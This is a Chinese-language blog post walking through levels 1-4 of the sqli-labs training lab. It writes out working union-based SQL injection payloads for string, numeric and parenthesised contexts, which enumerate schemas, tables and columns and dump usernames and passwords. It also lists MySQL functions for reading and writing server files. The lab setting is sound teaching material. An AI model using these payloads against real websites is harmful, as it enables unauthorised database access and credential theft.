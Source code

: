 ```yaml
---
layout:     post
title:      sqli-labs(1-4)
subtitle:   sqli-labs(1-4)
date:       2020-11-28
author:     YY——阳阳
header-img: img/post/post-bg-2020-11-28.jpg
catalog: true
tags:
    - sqli-labs
    - sql注入
---
```


## 前言
此关卡的主要思想以及步骤如下：

**首先判断注入方式**

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128112231338.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

## less-1

#### 0x01
> 提示为字符型注入，构造payload 
> ```../?id=1' and 1=1 ```正确 
> ```../?id=1' and 1=2 ```错误
> ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128103812435.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
>确认存在注入点

#### 0x02
> 然后进行确认字段数，因为不知道有几个字段，所以进行尝试。构造payload ```../?id=1' order by 1,2,3,4 --+ ```，发现在4时会报错，因此字段有3个。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128104116956.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

**PS：order by是mysql中对查询数据进行排序的方法，当排序所在列不存在时即会报错，因此根据回显可以判断目前有几列**
```bash
select * from user order by id asc;  对id字段进行排序
select * from user order by 1 desc;  对第一列进行排序
asc 升序排列 desc降序排列
```

#### 0x03
> 判断回显位置位于哪里，构造payload ```../?id=-1' union select 1,2,3--+```
> 因为判断出一共三列，因此判断1，2，3列的回显位置，此处id为-1，因为union联合查询后，不会多行显示，就需要先让前面的语句失效。![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128112901270.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
ps：此时id=1为正确语句，所以不会回显后边的执行语句。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128113012539.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
ps：此时id=-1为错误判断，因此会回显后边的执行语句，发现回显位置为2和3。

#### 0x04
> 接下来爆库，构造payload，```../?id=-1' union select 1,version(),database()--+```
> ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128113330872.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
```php
PS：常用sql注入函数
version():mysql版本，user():用户名，database():数据库名，@@datadir:读取数据库路径，@@version_compile_os:操作系统版本
concat(str1,str2,…):没有分割符地连接字符串，显示数据（数据合并）
group_concat(str1,str2,…):连接一个组的所有字符串，并以逗号分割每一条数据，显示数据
into outfile：写文件{select ‘需要写的文件’ into outfile ‘目录下’}，select ‘123123’ into outfile ‘d://study/1.txt’;(将123123添加至d盘study中新建1.txt文件中)
group_concat(列名):会把这一列中所有的内容在一行中以,隔开输出
select load_file(读文件路径)；
length() =>计算字符串长度
hex() =>字符转换为16进制
@@basedir MYSQL获取安装路径
```
>查看所有数据库，payload```../?id=-1' union select 1,group_concat(schema_name) from information_schema.schemata,3 --+```![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128114357420.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70
)![在这里插入图片描述](https://img-blog.csdnimg.cn/2020112811442066.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

#### 0x05
>查询security内的所有表名，构造payload```../?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = database()--+```![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128114654322.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

#### 0x06
> 查看users里的字段，构造payload```../?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name = 'users'--+```
> 我们发现了username和password，然后将其进行注入出来
> ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128114947405.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

#### 0x07
>查询所有的用户名和密码，构造payload```.../?id=-1' union select 1,group_concat(username),group_concat(password) from users --+```![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128115706646.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)

PS：GROUP_CONCAT函数返回一个字符串结果，该结果由分组中的值连接组合而成。
CONCAT（）函数用于将多个字符串连接成一个字符串。
concat_ws()  将多个字符串连接成一个字符串,可以一次性指定分隔符

## less-2
基于报错的数字型GET注入，这个由于是数字型的，所以闭合的时候不用单引号了。
检查是否存在注入，发现存在注入
```?id=1=1```正确
```?id=1=2```错误
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128120459894.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
整数型注入和字符型注入在于构造的id不同，整数型注入id=-1，下面构造payload

```bash
?id=-1 order by 1,2,3,4,5--+ //判断列数
?id=-1 union select 1,2,3--+ //判断回显位置
?id=-1 union select 1,user(),database()--+ //爆库
?id=-1 union select 1,user(),group_concat(table_name) from information_schema.tables where table_schema=database()--+ //爆表名
?id=-1 union select 1,user(),group_concat(column_name) from information_schema.columns where table_name='users'--+ //爆列名
?id=-1 union select 1,group_concat(username),group_concat(password) from users --+ //爆数据
```

## less-3
基于’)的字符型注入，判断是否存在注入
```id=1') and 1=1```正确
```id=1') and 1=2```错误
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128123046820.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
下面构造payload

```bash
?id=-1') order by 1,2,3,4,5--+ //判断列数
?id=-1') union select 1,2,3--+ //判断回显位置
?id=-1') union select 1,user(),database()--+ //爆库
?id=-1') union select 1,user(),group_concat(table_name) from information_schema.tables where table_schema=database()--+ //爆表名
?id=-1') union select 1,user(),group_concat(column_name) from information_schema.columns where table_name='users'--+ //爆列名
?id=-1') union select 1,group_concat(username),group_concat(password) from users --+ //爆数据
```
## less-4
基于")字符型注入，判断是否存在注入
```id=1“) and 1=1```正确
```id=1”) and 1=2```错误![在这里插入图片描述](https://img-blog.csdnimg.cn/20201128124840306.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ2MTEwMjI0,size_16,color_FFFFFF,t_70)
下面构造payload

```bash
?id=-1") order by 1,2,3,4,5--+ //判断列数
?id=-1") union select 1,2,3--+ //判断回显位置
?id=-1") union select 1,user(),database()--+ //爆库
?id=-1") union select 1,user(),group_concat(table_name) from information_schema.tables where table_schema=database()--+ //爆表名
?id=-1") union select 1,user(),group_concat(column_name) from information_schema.columns where table_name='users'--+ //爆列名
?id=-1") union select 1,group_concat(username),group_concat(password) from users --+ //爆数据
```